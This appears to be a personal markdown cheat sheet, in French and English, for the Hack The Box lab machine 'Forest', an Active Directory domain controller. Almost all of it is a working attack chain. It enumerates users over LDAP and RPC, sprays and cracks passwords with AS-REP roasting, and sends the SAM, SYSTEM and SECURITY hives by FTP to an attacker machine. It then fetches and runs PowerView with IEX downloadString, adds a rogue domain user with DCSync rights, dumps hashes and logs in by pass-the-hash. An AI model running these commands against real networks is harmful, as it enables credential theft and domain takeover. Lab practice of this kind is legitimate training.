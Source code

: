 # Forest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

sleep300; nmap -p- -oA fullforst 10.10.10.161

smbclient -L 10.10.10.161

ldapsearch -h 10.10.10.161 -x 

ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" > ldap-anonymous.out

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i samaccountname

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i userPrincipalName

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i pwdLastSet

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' samaccountname userPrincipalName pwdLastSet

> google pwdLastSet ldap to human

https://www.epochconverter.com/ldap

### transformer les commandes en une liste clean de users et mails :

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' userPrincipalName | grep userPrincipalName | awk '{print $2}' > listmail.ldap

rpcclient -U '' -N 10.10.10.161

enumdomusers

queryusergroups 0x47b

querygroup 0x47c

queryuser svc-alfresco


### recuperer la policy des passwords de l'AD

crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''

crackmapexec smb 10.10.10.161 --pass-pol -u 'user.lst' -p 'passwd.lst'

password spray avec crackmapexec

crackmapexec smb 10.10.10.161 -u 'user.lst' -p 'passwd.lst'

/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/

/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/ -format hashcat

hashcat --example-hashes | grep -i krb

hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt # ippsec ajoute -r rules/InsidePro-PasswordsPro.rule essaye de comprendre pk


# ${{\color{purple}Initial Foothold}}\ $


crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --shares

#Ici j'aurai pu try un gpp decrypt regarder ce que c'est
# le port 5985 est important c'est Win-RM (powershell remoting)

locate evil-winrm
/usr/bin/evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161

# ${{\color{purple}Exploitation}}\ $

# ${{\color{purple}Privilege Escalation}}\ $

find . | grep exe$
impacket-smbserver idk $(pwd) -smb2support -user user -password idkazewxc123
$pass = convertto-securestring 'idkazewxc123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('ippsec', $pass)
New-PSDrive -PSProvider FileSystem \\10.10.16.5


systemctl restart pure-ftpd

echo 'open 10.10.16.5 21'> ftp.txt
echo 'USER offsec'>> ftp.txt
echo 'lab'>> ftp.txt
echo 'bin'>> ftp.txt
echo 'PUT C:\windows\system32\config\SYSTEM'>> ftp.txt
echo 'PUT C:\windows\system32\config\SAM'>> ftp.txt
echo 'PUT C:\windows\system32\config\SECURITY'>> ftp.txt
echo 'bye'>> ftp.txt

ftp –v –n –s:ftp.txt 
systemctl stop pure-ftpd

------------------------------------------
New-PSDrive -Name ippsec4 -PSProvider FileSystem -Root \\10.10.16.5\test
cd ippsec4:
/usr/share/doc/python3-impacket/examples/smbserver.py test /mnt/share -smb2support

Bloodhound:
si il y a une install de bloodhound delet :
rm /usr/share/neo4j/data/dbms/auth
neo4j console
neo4j password : sparta-castro-union-labor-pluto-9066

./BloodHound --no-sandbox
.\SharpHound.exe -c all

Bloodhound search :
-Mark User as Owned
-search for Shortest Path from Owned Principals

net user evil evil123 /add /domain
net group "Exchange Windows Permissions"
net group "Exchange Windows Permissions" /add evil

IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:8080/PowerView.ps1')
$pass = convertto-securestring 'evil123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\evil', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity evil -Rights DCSync

/usr/bin/impacket-secretsdump htb.local/evil:evil123@10.10.10.161
crackmapexec smb 10.10.10.161 -u 'administrator' -H 32693b11e6aa90eb43d32c72a07ceea6

/usr/bin/impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161




-note ne pas oublier / dans impacket 
/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/
